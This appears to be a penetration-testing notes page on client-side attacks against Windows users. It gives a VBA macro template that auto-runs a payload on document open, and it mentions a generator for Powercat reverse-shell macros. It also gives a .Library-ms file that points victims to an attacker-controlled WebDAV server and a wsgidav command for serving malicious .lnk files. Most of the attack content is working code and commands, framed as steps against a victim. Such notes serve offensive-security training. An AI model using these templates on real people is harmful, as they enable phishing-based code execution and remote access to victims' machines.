

# Client Side

## Exploiting Microsoft Office

Steps to reproduce the doc macros attack using vba script

1. Create new file using **Microsoft Word**.
2.  Create a new macro - View > Macros:

    <figure><figcaption></figcaption></figure>


3. Give the macro name > Select **Macros in document** > Click on Create:

<figure><figcaption></figcaption></figure>

4. Write the Macro script within the payload:

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = <Payload>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

5. Save the file in **doc\docm** format which considered less secured, so the victim will just need to press **enable** to initiate the macros .

***

I've created useful python script which generates the VBA script content with Powercat Revshell payload given Local Host and Port:

```python
python3 vba-powercat-revshell.py <local_host> <ip>
```



## Exploiting Windows Library Files

Libraries are virtual containers for users' content.

This attack leverage **.Library-ms** file which will connect to attacker controlled WebDAV and be sent to a victim. Once the victim opens the file, he will think the WebDAV is a local windows folder. Then in the next stage the victim will click a malicious **.lnk** file using the WebDAV.&#x20;


First creating the **.Library-ms** file:&#x20;

<pre class="language-xml"><code class="lang-xml">&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
&#x3C;name>@windows.storage.dll,-34582&#x3C;/name>
&#x3C;version>6&#x3C;/version>
&#x3C;isLibraryPinned>true&#x3C;/isLibraryPinned>
&#x3C;iconReference>imageres.dll,-1003&#x3C;/iconReference>
&#x3C;templateInfo>
&#x3C;folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}&#x3C;/folderType>
&#x3C;/templateInfo>
&#x3C;searchConnectorDescriptionList>
&#x3C;searchConnectorDescription>
&#x3C;isDefaultSaveLocation>true&#x3C;/isDefaultSaveLocation>
&#x3C;isSupported>false&#x3C;/isSupported>
&#x3C;simpleLocation>
&#x3C;url><a data-footnote-ref href="#user-content-fn-1">http://webdav_address</a>&#x3C;/url>
&#x3C;/simpleLocation>
&#x3C;/searchConnectorDescription>
&#x3C;/searchConnectorDescriptionList>
&#x3C;/libraryDescription>
</code></pre>

* **`<libraryDescription>`**: This is the root element that defines the overall structure of a Windows library configuration.
* **`<name>`**: Refers to a string identifier for the library.
* **`<version>`**: Specifies the version of the library schema.
* **`<isLibraryPinned>`**: Indicates whether the library is pinned in the user's navigation pane.
* **`<iconReference>`**: Points to the resource for the icon associated with the library.
* **`<templateInfo>`**: Contains metadata about the library's folder type template.
* **`<folderType>`**: Defines the folder type or classification of the library using a GUID, which influences its behavior and appearance. These tag determine the columns and details that appear in Windows Explorer.
* **`<searchConnectorDescriptionList>`**: A wrapper for a collection of search remote connectors that the library can use.
* **`<searchConnectorDescription>`**: Defines individual search connectors, specifying details like save location and support status.
* **`<isDefaultSaveLocation>`**: Indicates whether this search connector is the default location for saving files, set to true here.
* **`<isSupported>`**: used for compatibility.
* **`<simpleLocation>`**: Specifies the search connector’s location in a simplified format.
* **`<url>`**: Points to the URL of the **attacker's WebDAV server**.


Serving the WebDAV Server including malicious files such `.lnk` file that runs PowerShell.

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root <directory_to_serve>
```

## References



[^1]: 
